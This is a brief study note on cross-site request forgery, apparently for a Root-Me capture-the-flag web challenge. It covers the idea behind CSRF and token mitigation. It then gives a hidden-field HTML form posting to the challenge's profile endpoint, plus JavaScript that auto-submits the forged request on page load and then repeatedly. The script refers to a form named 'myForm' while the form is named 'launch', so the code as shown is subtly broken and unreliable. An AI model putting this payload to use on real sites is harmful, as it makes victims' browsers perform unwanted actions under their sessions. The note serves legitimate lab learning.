## Theory

- When an attacker tricks a victim going to a page controlled by the attacker, which then submits data to the target site as the victim.
- Mitigation with CSRF tokens.
- Check, if they have csrf.js file that sends code like this : $csrf = session CSRF token. On each page, they had script src= csrf.js. So all you have to do was to include that same tag in your exploit.

## Practical part

Use jsfiddle.net to try your code.


- Use the actual form in html code 
for example : 
```
<form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data" name="launch">
	<input type="hidden" name="username" value="bloblo" >
	<input type="hidden" name="status" >
<button type="submit">Submit</button>
</form>
```

- Modify the values you need and add the end of this code to do auto execute your malicious action

```
<form action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" method="post" enctype="multipart/form-data" name="launch">
	<input type="hidden" name="username" value="bloblo" >
	<input type="hidden" name="status" value="on" >
<button type="submit">Submit</button>
</form>
<script type="text/javascript">
    window.onload=function(){
        var auto = setTimeout(function(){ autoRefresh(); }, 100);
        function submitform(){
          alert('test');
          document.forms["myForm"].submit();
        }

        function autoRefresh(){
           clearTimeout(auto);
           auto = setTimeout(function(){ submitform(); autoRefresh(); }, 10000);
        }
    }
</script>

```
